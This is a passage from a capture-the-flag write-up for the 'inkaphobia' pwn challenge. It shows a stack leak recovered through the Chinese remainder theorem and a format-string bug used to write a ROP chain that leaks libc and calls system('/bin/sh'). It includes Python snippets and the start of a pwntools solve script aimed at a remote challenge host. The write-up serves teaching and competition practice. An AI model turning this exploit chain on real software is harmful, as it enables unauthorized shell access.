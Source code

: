 However, this does not give us quite enough information to deduce the address, as the modulo is smaller than `0xffffffffffffffff`. However, we know that stack addresses on a 64-bit system will be around `0x7ffff0000000`, so if we add our modulo repeatedly to our result from CRT until we get a value in this range, we can have a leak of the stack address that works most of the time.

So, we add this snippet of code to deduce a likely candidate for the stack address:

```python
buf_addr = [res[0]+res[1]*n for n in range(1, 1000) if hex(res[0]+res[1]*n)[0:4]=="0x7f" and len(hex(res[0]+res[1]*n))==14][0]
```

Well, now we're out of the `dorng()` function with a stack leak. Now what?

Back to the `main()` function:

```C
puts("Thanks for visiting our RNG! What\'s your name?");  
fgets(local_218,0x200,stdin);
printf("Thanks for coming, ");
printf(local_218);
```

We have a trivial format string vulnerability here. This gives us arbitrary read/write. However, since full RELRO is enabled and we don't have a libc leak, where can we target? 

Well, we have a stack leak. So, we use GDB to find the offset from the leaked address to the return address, which in this case is 540. We can now use our format string to write to the return address (I used pwntools' `fmtstr_payload` function for the first time, it's really nice), essentially writing a ropchain to the stack. Since we can now ROP, we can return to libc.

We can first use either ROP or our format string to leak libc, then return back to `main()` for a second pass. I used ROP to call `printf(printf_got)`, but there were other ways to do this.

When we return to `main()` we now have a libc leak and we can leak a stack address and create a second ropchain that will call `system("/bin/sh")`. Alternatively, overwriting the return address or `__malloc_hook` with a `one_gadget` was likely possible, but may have required some more thought on how to set up the registers correctly.

The result is a shell, and it works around half the time! (Sometimes the leaks don't work out because the address is off by a multiple of our modulo)

My solve script is below:

```python
from pwn import *
from sympy.ntheory.modular import crt

context.arch = "amd64"

elf = ELF("./inkaphobia")
libc = ELF("./libc.so.6")
rop = ROP(elf)

#conn = elf.process()
conn = remote("143.244.152.111", 42008)

primes = [101, 103, 107, 109, 113, 127]

def get_remainder(num):
  conn.recvuntil(":")
  conn.sendline(str(num))
  conn.recvuntil(":")
  rem = int(conn.recvline().strip())
  log.info(f"addr ≡ {rem} (mod {num})")
  return rem

conn.recvline()
remainders = []
for prime in primes: # get stack address mod primes
```